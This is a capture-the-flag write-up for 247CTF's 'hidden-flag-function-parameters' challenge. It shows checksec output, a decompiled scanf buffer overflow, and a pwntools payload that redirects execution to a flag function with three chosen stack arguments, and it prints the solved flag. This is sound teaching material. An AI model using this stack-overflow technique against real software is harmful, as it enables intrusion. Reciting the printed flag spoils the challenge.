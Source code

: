 # Hidden Flag Function

## Introduction

`hidden-flag-function-parameters` is a 130 point binary-exploitation challenge from
247CTF. The description states:

> Can you control this applications flow to gain access to the hidden flag
> function with the correct parameters?

## Information Gathering

### Hint #1

Hints are for financial supporters of the site, so I don't have access.

### Vulnerability Mitigations

```shell
$ checksec hidden_flag_function_with_args
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Analysis

We found a function called `flag` that checks the input parameters to open and read the flag from `flag.txt`:

```c
void flag(int32_t arg1, int32_t arg2, int32_t arg3)
{
    if ((arg1 == 0x1337 && (arg2 == 0x247 && arg3 == 0x12345678)))
    {
        void var_90;
        fgets(&var_90, 0x80, fopen("flag.txt", "r"));
        printf("How did you get here?\nHave a fl…", &var_90);
    }
}
```

`main` simply prints to stdout and calls `chall`, below:

```c
int32_t chall()
{
    char buf[0x80];
    return __isoc99_scanf("%s", &buf);
}
```

Looks like we have our classic buffer overflow into `buf`. This time we just need to add our arguments to the stack in order for them to be popped off and interpreted by `chall` as the parameters to our function.


## Solution

The solution is really the same as the previous challenge, `hidden-flag-function`, but we need to pass arguments to the function. This occurs after we're overwritten then return address of `chall` to point to `flag`. We then push our values to the stack in reverse order (as interpreted by the stack), and call `chall` with the parameters like so:

```python
# Create the payload.
payload = fit({
    offset: p32(exe.symbols['flag']),
    # Magic bytes found in the function `flag`. Check the README.
    offset + 8: p32(0x1337),        # $ebp + 8
    offset + 12: p32(0x247),        # $ebp + 12
    offset + 16: p32(0x12345678),   # $ebp + 16
})
```

Sending this to the remote server grants us the flag: `247CTF{da70c8d41fc43fc59cf04f4e591c9ad6}`


